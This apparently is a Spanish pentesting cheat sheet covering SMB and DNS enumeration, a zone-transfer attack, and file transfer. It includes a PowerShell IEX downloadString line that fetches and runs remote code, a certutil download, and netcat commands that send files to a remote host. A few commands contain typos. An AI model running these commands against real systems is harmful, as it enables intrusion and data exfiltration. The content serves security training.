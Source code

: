 ```yaml
---
layout: post
title: Enumeración - CheetSheat
tags: [CheetSheat]
description: "Enumeración - CheetSheat"
---
```


## Samba Port(445)

### Iniciar samba

```
sudo service smbd start
```

### smbget

```
smbget -R smb://<share>/
```

### smbmap

```
smbmap -H <ip> -r /share/share2
smbmap -H <ip> --download /share/share2/file
smbmap -H <ip> -d <domain> -u <user> -p <password>
```

### smbclient

```
smbclient //<ip>/share -U <domain>\\<user>%<password>
smbclient -NL //<ip>
```

### psexec

```
psexec.py <domain>/<user>@<ip>
```

### CracMapExec

```
crackmapexec smb <ip>  -u <user> -p <password>
```

### Montura

```
mount -t cifs //<ip>/<share> <folder_attack> -o username=<user>,password=<password>,rw
umount <folder>
```

### Scripts nmap

```
nmap --script "vuln and safe" -p445 <ip>
nmap --script=smb-enum-shares,smb-enum-users -p445 <ip>
```

----

## DNS (port 53)

| argumento | descripción                     |
|-----------|---------------------------------|
| ns        | nombres de servicio             |
| mx        | servidores de correo            |
| axfr      | ataque de transferencia de zona |

```
dig @<ip> <domain>
dig @<ip> <domain> ns
dig @<ip> <domain> mx
```

### Ataque de transferencia de zona

```
dig @<ip> <domain> axfr
```

----

## Transferencia de archivos

### Linux

```
nc -lvp <port> > file (recibe el fichero)
nc <ip> < <file> <port> (envia el fichero)
```

```
wget <url> -O <output>
```

```
impacket-smbserver share $(pwd) -smb2support
```

```
python3 -m http.server <port>
python -m SimpleHTTPServer <port>
```

```
sudo python -m pyftpdlip -p 21 -w
```

### Windows

```
certutil.exe -f -urlcache -split <url>
```

```
powershell IEX(New-Object Net.WebClient).downloadString('<url>')"
```
